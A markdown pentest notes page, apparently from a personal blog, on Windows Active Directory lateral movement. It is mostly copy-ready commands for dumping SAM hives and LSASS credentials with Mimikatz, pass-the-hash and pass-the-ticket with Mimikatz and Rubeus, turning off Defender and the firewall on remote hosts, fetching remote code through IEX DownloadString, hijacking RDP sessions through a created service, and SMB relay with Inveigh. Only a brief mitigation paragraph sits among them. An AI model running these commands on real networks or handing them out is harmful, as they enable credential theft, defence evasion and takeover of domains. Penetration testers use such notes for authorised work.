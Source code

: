 ```yaml
---
title: Windows AD Lateral Movement
published: 2025-02-11
description: "Move Laterly in windows AD Enivronement"
image: "./img/img.jpg"
tags: [Notes ,AD, windows]
category: 'Notes'
draft: false
---
```


# Before u start
u must have local priv in the machine u own

# How Kerberos Work
![kerberos](image.png)

# Dumping SAM and SYSTEM
```bash
C:\Windows\System32\config
reg save HKLM\sam sam
reg save HKLM\system system

samdump2 SYSTEM SAM > hashes.txt

# Crack the passwords
hashcat -m 1000 -a 3 hashes.txt rockyou.txt
```

# SAM & LSA with MimiKatz
```bash
powershell -ep bypass
import-module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose -Domain pentesting
```

Download Mimikatz:
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1

```bash
powershell -ep bypass
import-module .\Invoke-Mimikatz
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```

# PassTheHash with MimiKatz

A Pass-the-Hash (PtH) attack is a technique whereby an attacker captures a password hash (as opposed to the password characters) and then simply passes it through for authentication and potentially lateral access to other networked systems. The threat actor doesn’t need to decrypt the hash to obtain a plain text password. PtH attacks exploit the authentication protocol, as the passwords hash remains static for every session until the password is rotated. Attackers commonly obtain hashes by scraping a system’s active memory and other techniques.

```bash
Import-Module .\Invoke-Mimikatz 
Invoke-Mimikatz -Command '"sekurlsa::pth /user:student5 /domain:... /ntlm:... /run:powershell.exe"'

Import-Module .\Powerview.ps1
Get-DomainComputer
```

## see if we have access to a server
```bash
Invoke-Command -ComputerName ad -ScriptBlock{whoami; whoami /groups; hostname}
Invoke-Command -ComputerName web -ScriptBlock{whoami; whoami /groups; hostname}
```

## creating a session and hosting on a variable
```bash
$sess = New-PSsession -ComputerName web 
```

## Disable AV and Firewall
```bash
Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -Session $sess
```

## Entering Created Session
```bash
Enter-PSsession $sess
IEX (New-Object Net.webClient).DownloadString('link'); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```

# Passing The Ticket

```bash
powershell -ep bypass
import-module .\invoke-mimikatz.ps1
invoke-mimikatz -Command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'
invoke-mimikatz -Command '"Mimikatz::debug" "kerberos::ptt TicketName" "exit"'
klist # to see the ticket
dir \\web\c$
Invoke-Command -ComputerName web -ScriptBlock{whoami; whoami /groups; hostname}
Enter-PSSession -ComputerName web
# check applocker
```

# Pass the Ticket with Rubeus

```bash
.\Rubeus.exe klist
.\Rubeus.exe dump
.\Rubeus.exe ptt /ticket:doIFSjCCBUagAwIBBaEDAgEWooIEQzCCBD9hg<SNIP>
```

## You can Also, Pass the hash
```bash
.\Rubeus.exe asktgt /user:student5 /domain:pentesting /rc4:602f5c34346bc946f9ac2c0922cd9ef6
```

## Triage All Current Tickets (If Elevated List all Users)
```bash
.\Rubeus.exe triage
s
```
## List all Current Tickets in Details (If Elevated List all Users)
```bash
\Rubeus.exe klist

runas /user:jenkinsadmin /savecred "<ProgramName> <PathToProgramFile>"
```

## resource on the types of Logon Types:

https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material

- Local Login: Physically Logging in at Your Workstation

- `runas`: Perhaps you are a Low Level Helpdesk who uses /runas to spawn a CMD with DA Account, this will result in a TGT for the DA account be cached in LSSAS

- `runas /netonly`: TGT will appear after running a network command (\\IP\SYSVOL) or something

- `PsExec \\server -u user -p pwd cmd` - PSExec leaves a TGT providing explicit credentials were defined

Remote Desktop (RDP)
--------------------

## Mitigation / Defending against PTT
It goes without saying that defending against PTT is very tricky as you are simply using normal functions of Kerberos in a malicious way - All you are really doing is using Kerberos tickets as they would be used, TGT to request service TGS Ticket, and accessing services with TGS.

However as tickets are stored in LSASS I recommend you do not log into end-users stations with privileged accounts i/e do not log into a HR User with your Domain Account with a interactive session…

It is also advised to ensure that Kerberos tickets are set to expire within 10 hours.

# Session Hijack
## Elevate permission to SYSTEM
```bash
PsExec.exe -s \\localhost cmd
whoami
```

## Get Conneted user
```bash
query user
```

## Create service which will hijack user's session:
```bash
sc create sesshijack binpath= "cmd.exe /k tscon ID /dest:rdp-tcp#UrSession"
```

## start the service
```bash
net start sesshijack
```

# SMB Relay

## Download Inveigh here:
https://github.com/Kevin-Robertson/InveighZero

## Run Inveigh.exe as Admin
Inveigh.exe

## Send password offline for cracking
hashcat -m 5600 hadams.txt rockyou.txt
